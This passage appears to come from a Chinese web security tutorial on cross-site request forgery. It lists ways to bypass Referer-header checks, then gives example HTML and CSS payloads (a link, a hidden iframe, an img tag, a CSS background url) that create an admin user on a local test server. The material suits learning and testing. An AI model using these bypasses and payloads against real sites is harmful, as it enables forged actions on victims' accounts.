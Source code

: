 HTTP Referer是header的一部分，当浏览器向web服务器发送请求的时候，一般会带上Referer，告诉服务器我是从哪个页面链接过来的，服务器基此可以获得一些信息用于处理。

当用户点击被构造好的CSRF利用页面，那么在执行用户对应操作时，提交的HTTP请求中就有对应的Referer值，此时服务器判断Referer值是否与服务器的域名信息有关，如果不相关则不执行操作。

#### 2. 绕过技巧

- 利用data协议绕过referer为空：data:text/html;base64,[base64编码的html]
- 利用https协议绕过referer为空：https向http跳转的时候referer为空
- 利用二级域名绕过referer验证域名
- 新建文件夹绕过referer验证关键词：referer验证关键词google.com，那么就在网站后台建立一个文件夹命名为google.com，构造链接时写这个文件夹所在的路径，即可绕过关键词
- 伪造子域名绕过refer验证域名：如验证的是test.com，那么我们可以构造test.com.xxx.com来绕过



## 0x09 CSRF常见四种利用方法
#### 1. a标签

在HTMl中，a标签代表链接，可以将当前的“焦点”指引到其他位置。
移动的“焦点”需要发送对应的请求到链接指向的地址，然后返回相应。

\<a href="请求地址，会被http请求到的位置，可以携带GET型参数"\>内容\</a\>
\<a href="http://127.0.0.1/csrf_test/get_csrf/new_user.php?username=admin&password=12345"\>请点击我\</a\>

#### 2. iframe标签

iframe标签内容将在页面加载过程中自动进行加载，src指向的位置就是页面请求的位置。
注意可以设置iframe的style->display:none，以此来不显示iframe加载的内容。

\<iframe src="http://127.0.0.1/csrf_test/get_csrf/new_user/php?username=admin&password=123456" style="display:none" /\>

#### 3. img标签

img标签的内容会随着页面加载而被请求，以此src指向的位置会在页面加载过程中进行请求。

\<img src="http://127.0.0.1/csrf_test/get_csrf/new_user.php?username=admin&password=1223455" /\>

#### 4. CSS-background利用

可以利用CSS中background样式中的url来加载远程机器上的内容，从而对url中的内容发送HTTP请求。

例如：

```css
body{
    background:#00FF00 url(bgimage.gif) no-repeat fixed top;
}
```

其中bagimage.gif可以替换为链接。

```css
body{
    background:#00FF00 url(http://127.0.0.1/csrf_test/get_csrf/new_user.php?username=admin&password=1223455) no-repeat fixed top;
}
```
